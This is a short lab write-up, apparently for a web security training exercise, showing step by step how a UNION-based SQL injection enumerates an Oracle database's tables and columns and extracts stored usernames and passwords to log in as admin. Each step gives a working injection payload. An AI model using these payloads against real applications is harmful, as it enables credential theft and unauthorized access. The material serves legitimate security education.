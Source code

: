 
### SQL injection attack, listing the database contents on Oracle

---

First, identify the number of output fields in the query. Do that using the adding `NULL` method. It is an oracle DB, so must add `FROM DUAL`.

```
' UNION SELECT NULL, NULL FROM DUAL--
```
- It has 2 output fields.

Next, we determine the type of the output fields. We need to extract a username and a password, so we are looking for text type string.
```
' UNION SELECT 'a', NULL FROM DUAL-- 
' UNION SELECT NULL, 'a' FROM DUAL--
```
- Both work, hence both are strings.

Since this is oracle, we can use `all_tables` to enumerate the tables of this database.
```
' UNION SELECT TABLE_NAME, NULL FROM all_tables --
```
- Choosing to attack the `USERS_QTKCOM` table.

We need to find the column names of this table to check that they are indeed the usernames and passwords as required.
```
' UNION SELECT COLUMN_NAME, NULL FROM all_tab_columns WHERE table_name = 'USERS_QTKCOM' --
```

2 new rows were output that contain the column name for usernames and passwords.
* PASSWORD_TMVXQH
* USERNAME_SITQKU

Now, we need to get the data inside these columns using a normal query
```
' UNION SELECT USERNAME_SITQKU, PASSWORD_TMVXQH FROM USERS_QTKCOM --
```
- This outputs the usernames and passwords in new rows.

![usersandpass](./screenshots/usernamepass.png)

We can now login as admin and complete the lab.

---

